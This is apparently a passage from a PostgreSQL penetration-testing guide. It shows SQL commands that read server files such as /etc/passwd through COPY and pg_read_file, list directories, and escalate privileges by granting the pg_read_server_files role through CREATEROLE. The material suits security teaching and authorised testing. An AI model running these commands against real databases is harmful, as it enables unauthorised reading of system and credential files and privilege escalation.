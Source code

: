 ```sql
# Another aparent option
SELECT * FROM pg_proc;
```

## File-system actions

### Read directories and files

From this [**commit** ](https://github.com/postgres/postgres/commit/0fdc8495bff02684142a44ab3bc5b18a8ca1863a)members of the defined **`DEFAULT_ROLE_READ_SERVER_FILES`** group (called **`pg_read_server_files`**) and **super users** can use the **`COPY`** method on any path (check out `convert_and_check_filename` in `genfile.c`):

```sql
# Read file
CREATE TABLE demo(t text);
COPY demo from '/etc/passwd';
SELECT * FROM demo;
```

> [!WARNING]
> Remember that if you aren't super user but has the **CREATEROLE** permissions you can **make yourself member of that group:**
>
> ```sql
> GRANT pg_read_server_files TO username;
> ```
>
> [**More info.**](pentesting-postgresql.md#privilege-escalation-with-createrole)

There are **other postgres functions** that can be used to **read file or list a directory**. Only **superusers** and **users with explicit permissions** can use them:

```sql
# Before executing these function go to the postgres DB (not in the template1)
\c postgres
## If you don't do this, you might get "permission denied" error even if you have permission

select * from pg_ls_dir('/tmp');
select * from pg_read_file('/etc/passwd', 0, 1000000);
select * from pg_read_binary_file('/etc/passwd');

# Check who has permissions
\df+ pg_ls_dir
\df+ pg_read_file
\df+ pg_read_binary_file

# Try to grant permissions
GRANT EXECUTE ON function pg_catalog.pg_ls_dir(text) TO username;
# By default you can only access files in the datadirectory
SHOW data_directory;
# But if you are a member of the group pg_read_server_files
# You can access any file, anywhere
GRANT pg_read_server_files TO username;
# Check CREATEROLE privilege escalation
```
